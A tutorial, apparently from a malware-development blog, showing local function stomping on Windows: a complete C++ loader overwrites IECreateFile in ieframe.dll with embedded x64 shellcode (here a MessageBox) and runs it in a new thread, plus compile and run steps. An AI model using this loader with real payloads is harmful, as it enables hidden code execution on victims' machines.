








# Local function stomping

Stomping is the process of writing new data over the memory of a function or other data object in a program.     

Function stomping is a method of replacing the original function's bytes with new code. This changes the function or makes it not work as it should. The function will instead run different logic. A sacrificial function address needs to be killed in order for this to work.    

It's easy to get the address of a function locally, but the important thing to keep in mind with this method is which function is being retrieved. If you overwrite a widely used function, the payload could run without your control, or the process could crash. So, it should be clear that it is dangerous to target methods that are exported from `ntdll.dll`, `kernel32.dll`, and `kernelbase.dll`. Instead, you should focus on features that aren't used very often, like `MessageBox`, since the operating system and other programs won't use it very often.     

### practical example

Let's create malware code shows how to use `IECreateFile` as the target function. If you delete this function, it probably won't do any harm, but it's completely random. According to Microsoft's help files, the function comes from `ieframe.dll`. So, the first thing that needs to be done is to use `LoadLibraryA` to load `ieframe.dll` into the local process memory. Next, use `GetProcAddress` to get the address of the function:    

```cpp
printf("loading ... ");
h = LoadLibraryA("ieframe.dll");
if (h == NULL){
  printf("LoadLibraryA failed: %d \n", GetLastError());
  return -1;
}
printf("loading ieframe.dll done \n");

addr = GetProcAddress(h, "IECreateFile");
if (addr == NULL){
  printf("GetProcAddress failed: %d \n", GetLastError());
  return -1;
}

printf("address Of \"%s\": 0x%p \n", "IECreateFile", addr);
```

The next step would be to stomp on the function and put the payload in its place. `VirtualProtect` should be used to mark the function's memory area as readable and writable so that it can be changed. Finally, `VirtualProtect` is used to mark the area as executable (RX or RWX). The payload is then put into the function's address.    

```cpp
if (!VirtualProtect(addr, sizeof(my_payload), PAGE_READWRITE, &old)) {
  printf("VirtualProtect [RW] failed : %d \n", GetLastError());
  return -1;
}

memcpy(addr, my_payload, sizeof(my_payload));

if (!VirtualProtect(addr, sizeof(my_payload), PAGE_EXECUTE_READWRITE, &old)) {
  printf("VirtualProtect [RWX] failed : %d \n", GetLastError());
  return -1;
}

printf("writing payload: done \n");
```

After that, we can use the `CreateThread` function to make a new thread that runs our shellcode. This new thread then calls the `IECreateFile` function.    

```cpp
th = CreateThread(NULL, NULL, addr, NULL, NULL, NULL);
if (th != NULL)
  WaitForSingleObject(th, INFINITE);
```

The complete code appears as follows:    

```cpp
#include <windows.h>
#include <stdio.h>

// x64 meow-meow shellcode
unsigned char my_payload[] = 
  "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
  "\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
  "\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
  "\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
  "\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
  "\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
  "\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
  "\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
  "\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
  "\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
  "\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
  "\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
  "\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
  "\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
  "\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
  "\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
  "\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
  "\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
  "\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
  "\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
  "\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
  "\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
  "\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
  "\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
  "\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
  "\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
  "\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
  "\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
  "\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main() {
  PVOID addr = NULL;
  HMODULE h = NULL;
  HANDLE th = NULL;
  DWORD old = NULL;

  printf("press <Enter> to load ieframe.dll...");
  getchar();

  printf("loading ... ");
  h = LoadLibraryA("ieframe.dll");
  if (h == NULL){
    printf("LoadLibraryA failed: %d \n", GetLastError());
    return -1;
  }
  printf("loading ieframe.dll done \n");

  addr = GetProcAddress(h, "IECreateFile");
  if (addr == NULL){
    printf("GetProcAddress failed: %d \n", GetLastError());
    return -1;
  }

  printf("address Of \"%s\": 0x%p \n", "IECreateFile", addr);

  printf("press <Enter> to write payload ... ");
  getchar();
  printf("writing payload... ");

  if (!VirtualProtect(addr, sizeof(my_payload), PAGE_READWRITE, &old)){
    printf("VirtualProtect [RW] failed : %d \n", GetLastError());
    return -1;
  }

  memcpy(addr, my_payload, sizeof(my_payload));

  if (!VirtualProtect(addr, sizeof(my_payload), PAGE_EXECUTE_READWRITE, &old)) {
    printf("VirtualProtect [RWX] failed : %d \n", GetLastError());
    return -1;
  }
  
  printf("writing payload: done \n");

  printf("press <Enter> to run the payload ... ");
  getchar();

  th = CreateThread(NULL, NULL, addr, NULL, NULL, NULL);
  if (th != NULL)
    WaitForSingleObject(th, INFINITE);

  printf("press <Enter> to quit ... ");
  getchar();

  return 0;
}
```

### demo

Let's go to see this in action. Compile:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

    

On the victim machine run it:   

```powershell
.\hack.exe
```

and attach to `x64dbg` debugger:   

    

    

check loading `ieframe.dll` and function address:    

    

then writing payload:   

    

Finally, run payload:    

    

    

As you can see, everything is worked as expected! Function stomped!    
